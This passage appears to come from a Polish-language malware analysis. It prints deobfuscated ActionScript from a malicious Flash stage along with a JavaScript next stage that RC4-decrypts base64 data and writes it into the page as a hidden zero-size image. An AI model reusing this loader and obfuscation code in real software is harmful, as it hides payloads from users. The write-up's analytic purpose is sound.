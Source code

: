 ```actionscript
        ej(resultxx,this.gs(eval));
    }
    
    function ej(param1, param2)
    {
        console.log(param2);
        console.log(param1);
        return;
        var _loc3_ = null;
        var _loc4_ = NaN;
        var _loc5_ = null;
        if(ExternalInterface.available)
        {
            _loc3_ = "s";
            _loc5_ = "n" + _loc3_;
            _loc5_ = "n" + _loc3_;
            return ExternalInterface.call(param2,param1);
        }
        return "";
    }
    
    function gs(param1)
    {
        var _loc2_ = "";
        var _loc3_ = param1.length;
        while(_loc3_ > 0 / 2)
        {
        _loc2_ = _loc2_ + param1["charAt"](_loc3_ - 1);
        _loc3_ = _loc3_ - 2;
        }
        return _loc2_;
    }

    Main()
}

YOLO()
```

(Tutaj wszystko już po SPOREJ deobfuskacji - oryginalnie nie było żadnych czytelnych dla człowieka stringów, wszystkie były zaszyfrowane przy pomocy gs(). Dane były szyfrowane obecną datą, ale był na szczęście dodatkowy check - miesiąc * dzień był równy 60, co ograniczyło ilość dat do sprawdzenia do ledwo kilku. Dzięki temu mogłem ręcznie sprawdzić wszystkie, i otrzymałem kolejny stage.

```javasctipt
var data="NQn5pSETMmg6ysiZ7M7kImT1fb0cNrAV3cutq3Ht17idKv4......"
var key="nky";
var str=window.atob(data);
var s=[], j=0, x, res='';
for (var i=0; i<256; i++) {s[i]=i;};for (i=0; i<256; i++) {j=(j+s[i]+key.charCodeAt(i % key.length)) % 256;
x=s[i];s[i]=s[j];s[j]=x;};
i=0;j=0;for (var y=0; y<str.length; y++) {i=(i+1) % 256;j=(j+s[i]) % 256;x=s[i];s[i]=s[j];s[j]=x;res += String.fromCharCode(str.charCodeAt(y) ^ s[(s[i]+s[j]) % 256]);};
document.write('<img src="data:image/gif;base64,'+res+'" width="0" height="0">');
```
